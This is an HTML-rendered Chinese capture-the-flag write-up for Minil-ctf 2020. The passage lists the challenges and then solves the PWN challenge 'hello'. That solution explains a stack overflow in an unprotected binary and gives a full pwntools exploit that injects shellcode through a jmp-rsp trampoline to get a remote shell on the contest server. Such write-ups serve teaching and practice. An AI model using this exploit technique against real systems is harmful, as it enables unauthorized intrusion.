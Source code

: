 ﻿<!DOCTYPE html> <html lang="zh"> <head> <meta charset="utf-8"/> <title>Markdown在线编辑器 - www.MdEditor.com</title> <link rel="shortcut icon" href="https://www.mdeditor.com/images/logos/favicon.ico" type="image/x-icon"/> </head> <body><h1 id="h1-minil-ctf-2020-writeup"><a name="Minil-ctf 2020 部分题目WriteUp" class="reference-link"></a><span class="header-link octicon octicon-link"></span>Minil-ctf 2020 部分题目WriteUp</h1><hr> <p>team:枣子姐永远滴神<br>members: </p><pre class="prettyprint linenums prettyprinted" style=""><ol class="linenums"><li class="L0"><code><span class="pun">-</span><span class="pln"> u7chi</span></code></li><li class="L1"><code><span class="pun">-</span><span class="pln"> </span><span class="typ">Tian</span></code></li><li class="L2"><code><span class="pun">-</span><span class="pln"> </span><span class="pun">讲不了道理哇</span><span class="pln">_</span></code></li></ol></pre><hr> <h2 id="h2-u76EEu5F55"><a name="目录" class="reference-link"></a><span class="header-link octicon octicon-link"></span>目录</h2><ul> <li>0x1 PWN<ul> <li>0x11 hello</li><li>0x12 ezsc</li><li>0x13 noleak</li></ul> </li><li>0x2 MISC<ul> <li>0x21 MiniGameHacking</li><li>0x22 MITM1 and MITM2</li></ul> </li><li>0X3 Android<ul> <li>0x31 Testonly?</li><li>0x32 Khronos</li></ul> </li><li>0x4 Reverse<ul> <li>0x41 Easyre</li></ul> </li></ul> <h2 id="h2-0x1-pwn"><a name="0x1 PWN" class="reference-link"></a><span class="header-link octicon octicon-link"></span>0x1 PWN</h2><h3 id="h3-0x11-hello"><a name="0x11 hello" class="reference-link"></a><span class="header-link octicon octicon-link"></span>0x11 hello</h3><p>先查看一下程序开启了哪些保护，发现啥都没开。<br><img src="https://wx2.sbimg.cn/2020/05/17/1c0461c86de74fe17.png" alt="11.png"> </p><p>再来看看IDA逆向的源码，下图所示函数中存在漏洞，读入了过量的字符<br><p><a href="https://sbimg.cn/image/p9sHk"><img src="https://wx1.sbimg.cn/2020/05/17/12.png" alt="12.png"></a></p><a href="https://sbimg.cn/image/p9sHk"> </a><br>但是由于读入数据长度受限，我们最多能再覆盖一个rbp和一个ret加一个ret下面的栈帧。无法构造较长的RoP链。在看到NX disabled后，就考虑将shellcode布置到栈上，利用跳转到ret下面的栈帧做跳板（该栈帧我们可以任意控制，因而可以写入代码sub rsp, 0x40;jmp rsp)来跳转到shellcode处。 </p><p>具体exp如下：</p> <pre class="prettyprint linenums prettyprinted" style=""><ol class="linenums"><li class="L0"><code><span class="com">#encoding:utf-8</span></code></li><li class="L1"><code><span class="kwd">from</span><span class="pln"> pwn </span><span class="kwd">import</span><span class="pln"> </span><span class="pun">*</span></code></li><li class="L2"><code></code></li><li class="L3"><code><span class="pln">context</span><span class="pun">(</span><span class="pln">arch</span><span class="pun">=</span><span class="str">'amd64'</span><span class="pun">,</span><span class="pln"> os</span><span class="pun">=</span><span class="str">'linux'</span><span class="pun">,</span><span class="pln"> log_level</span><span class="pun">=</span><span class="str">'debug'</span><span class="pun">)</span></code></li><li class="L4"><code></code></li><li class="L5"><code><span class="pln">sh </span><span class="pun">=</span><span class="pln"> remote</span><span class="pun">(</span><span class="str">'pwn.challenge.mini.lctf.online'</span><span class="pun">,</span><span class="pln"> </span><span class="lit">10043</span><span class="pun">)</span></code></li><li class="L6"><code></code></li><li class="L7"><code></code></li><li class="L8"><code><span class="pln">jmp_rsp </span><span class="pun">=</span><span class="pln"> </span><span class="lit">0x4006ca</span><span class="pln"> </span><span class="com">#用Ropgadget得到跳转到栈上执行代码的指令的地址</span></code></li><li class="L9"><code><span class="pln">sub_rsp_jmp </span><span class="pun">=</span><span class="pln"> </span><span class="kwd">asm</span><span class="pun">(</span><span class="str">'sub rsp, 0x40;jmp rsp'</span><span class="pun">)</span></code></li><li class="L0"><code><span class="pln">shellcode </span><span class="pun">=</span><span class="pln"> </span><span class="kwd">asm</span><span class="pun">(</span><span class="pln">shellcraft</span><span class="pun">.</span><span class="pln">sh</span><span class="pun">())</span></code></li><li class="L1"><code><span class="kwd">print</span><span class="pln"> len</span><span class="pun">(</span><span class="pln">shellcode</span><span class="pun">)</span><span class="pln"> </span><span class="com">#这里打印一下shellcode的长度，看之后需要补几个'a'</span></code></li><li class="L2"><code><span class="pln">sh</span><span class="pun">.</span><span class="pln">recvuntil</span><span class="pun">(</span><span class="str">'name?\n'</span><span class="pun">)</span></code></li><li class="L3"><code><span class="pln">shell </span><span class="pun">=</span><span class="pln">shellcode </span><span class="pun">+</span><span class="pln"> </span><span class="str">'a'</span><span class="pun">*</span><span class="lit">0x8</span><span class="pun">+</span><span class="pln">p64</span><span class="pun">(</span><span class="pln">jmp_rsp</span><span class="pun">)+</span><span class="pln">sub_rsp_jmp</span></code></li><li class="L4"><code><span class="pln">sh</span><span class="pun">.</span><span class="pln">sendline</span><span class="pun">(</span><span class="pln">shell</span><span class="pun">)</span></code></li><li class="L5"><code></code></li><li class="L6"><code></code></li><li class="L7"><code></code></li><li class="L8"><code><span class="pln">sh</span><span class="pun">.</span><span class="pln">interactive</span><span class="pun">()</span></code></li></ol></pre><h3 id="h3-0x12-ezsc"><a name="0x12 ezsc" class="reference-link"></a><span class="header-link octicon octicon-link"></span>0x12